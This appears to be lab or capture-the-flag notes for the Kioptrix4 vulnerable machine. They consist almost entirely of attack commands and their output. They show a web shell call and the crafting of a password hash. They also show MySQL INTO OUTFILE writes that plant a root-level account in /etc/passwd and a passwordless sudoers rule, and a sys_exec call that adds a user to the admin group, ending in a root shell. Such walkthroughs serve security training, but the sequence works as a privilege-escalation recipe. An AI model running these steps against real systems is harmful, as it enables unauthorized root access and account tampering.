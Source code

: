 ```
http://192.168.0.69/shell.php?cmd=whoami
```

```
$openssl passwd -1 -salt alexi alexi
$1$alexi$eGNWFfBkUjcEpDg87R5OV1
```

```
alexi:$1$alexi$eGNWFfBkUjcEpDg87R5OV1:0:0:root:/root:/bin/bash


SELECT "alexi:$1$alexi$eGNWFfBkUjcEpDg87R5OV1:0:0:root:/root:/bin/bash" INTO OUTFILE '/etc/passwd';



SELECT "robert ALL=(ALL) NOPASSWD:ALL" INTO OUTFILE "/etc/sudoers.d/robert";

echo "robert ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers.d/robert



mysql> SELECT "robert ALL=(ALL) NOPASSWD:ALL" INTO OUTFILE "/etc/sudoers.d/robert";
ERROR 1 (HY000): Can't create/write to file '/etc/sudoers.d/robert' (Errcode: 2)

mysql> select sys_exec('usermod -aG admin robert');
+--------------------------------------+
| sys_exec('usermod -aG admin robert') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
robert@Kioptrix4:/var/www$ sudo su
[sudo] password for robert: 
root@Kioptrix4:/var/www# id
uid=0(root) gid=0(root) groups=0(root)





```



